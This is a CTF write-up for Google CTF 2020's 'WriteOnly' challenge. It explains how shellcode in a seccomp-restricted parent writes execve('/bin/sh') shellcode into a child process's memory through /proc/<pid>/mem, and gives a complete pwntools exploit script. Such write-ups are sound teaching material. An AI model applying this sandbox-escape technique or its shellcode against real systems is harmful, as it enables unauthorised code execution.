 ```yaml
---
title: WriteOnly - Google CTF 2020
date: 2020-08-24 21:08:25
author: Cyb0rG
author_url: https://twitter.com/_Cyb0rG
categories:
  - Pwn
  - Sandbox
tags:
  - Shellcode
  - Seccomp
  - Write to child memory
  - GoogleCTF
---
```


**tl;dr**

+ Execute shellcode on parent and write to child's memory using `/proc/<pid of child>/mem`
+ Overwrite return address of child with execve shellcode and pop shell.


<!--more-->

**Category:** Sandbox
**Challenge Points:** 140
**Solves:** 87
**Solved By:** [Sherl0ck](https://twitter.com/sherl0ck__), [Cyb0rG](https://twitter.com/Cyb0rG), [3agl3](https://twitter.com/3agl31) 

We had a really great time this weekend playing this year's edition of Google CTF. Although we were able to solve only 2 of the pwn challenges , here's the intended writeup for the challenge *WriteOnly*.

## Challenge description

Here's the list of all the allowed syscalls.

```c
void setup_seccomp() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(stat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fstat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lstat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lseek), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mprotect), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(writev), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(access), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sched_yield), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup2), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(clone), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fork), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(vfork), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(kill), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(chdir), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fchdir), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(gettimeofday), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getuid), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getgid), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
  ret |= seccomp_load(ctx);
  if (ret) {
    exit(1);
  }
}

```

A surprise that the challenge has for us is that `Read` syscall is **not allowed**.

## Idea of exploit

Again, going through source code , we see a few things happening.

+ A child is created which opens and reads 4 bytes of flag constantly.
+ The parent sets up seccomp, asks for a length and takes our shellcode as input and gives us code execution right away.

```c
int main(int argc, char *argv[]) {
  pid_t pid = check(fork(), "fork");
  if (!pid) {
    while (1) {
      check_flag();
    }
    return 0;
  }

  printf("[DEBUG] child pid: %d\n", pid);
  void_fn sc = read_shellcode();
  setup_seccomp();
  sc();

  return 0;
}

```

An important thing to notice here is , seccomp is enabled in the parent **after** the child has been created. Hence , the child **does not** inherit seccomp, so how cool is that?

The only thing that we could think of was to somehow **write** to the child's memory and get code execution in child too. But the question was , what do we write to child and how do we do it?

### Delving into the exploit

As suggested by [Sherl0ck](https://twitter.com/sherl0ck__), we could open a pseudo file called `/proc/<pid of child>/mem` and write to any segment of memory of the child , just like editing a binary in plain ghex :P. And what more , the program already prints the PID of child coupled with **PIE** being disabled , hence confirming our approach to exploitation.
    So now , another question that should pop in our minds now is , where do we write in the memory of child to get code execution? We can blithely overwrite the **return address** of child with our shellcode. There's another problem , remember that child will die if parent dies , so we have to make sure that the parent is alive throughout our journey of popping shell through child.

#### Overwriting return address of child

tl;dr of the plan is :

+ Open `/proc/<pid of child>/mem` with read-write permissions.
+ using **lseek** syscall to seek to the return address of child.
+ Write shellcode to return address and finally loop parent so that it doesn't die out.

```python
from pwn import *
import sys

HOST = 'writeonly.2020.ctfcompetition.com'
PORT = 1337
context.arch = 'amd64'
if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./chal')

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)

if __name__=="__main__":
    #shellcode for execve /bin/sh

    shell = asm("""
                mov r9,0x0068732f6e69622f
                push r9
                push rsp
                pop rdi
                xor rsi,rsi
                xor rdx,rdx
                mov rax,0x3b
                syscall
                """)
    reu('child pid: ')
    pid = int(rel().strip(),10)
    log.info('pid -> ' + str(pid))

    #Adjusting /proc/pid/mem to 8 bytes and storing on stack
    sc = asm('''
    mov r9, 0x006d656d2f2f322f
    push r9
    mov r9, 0x2f2f636f72702f2f
    push r9
    push rsp
    pop rdi
    push rax
    mov r10,rax
    mov rsi,2
    mov rdx,0
    mov rax,2
    syscall                       #Open file with read-write permissions
    mov rdi,rax
    mov r8,rdi
    mov rax, 8
    mov rsi,0x00000000004022e3    #lseek requires the address we want to seek to as offset
    mov rdx,1
    syscall
    mov rax,1
    mov rdi,r8
    mov rsi,r10
    add rsi,0x100                 #Fetching shellcode's address into rsi and writing to file
    mov rdx,0x30
    syscall
    loop: jmp loop                #Make sure parent does not die
            '''.format("0x" + (str(pid) + '//')[::-1].encode('hex')))
    sc = sc.ljust(0x100,'\x00')
    sc += shell  
    log.info('sc len : ' + str(len(sc)))
    sla('length? ',str(len(sc) + 1))
    gdb.attach(io)
    sla('shellcode. ',sc)
    io.interactive()
```

## Conclusion

The challenge taught me yet another way of escaping seccomp sandbox through writing to child's memory. kudos to Google CTF for such a good challenge. 


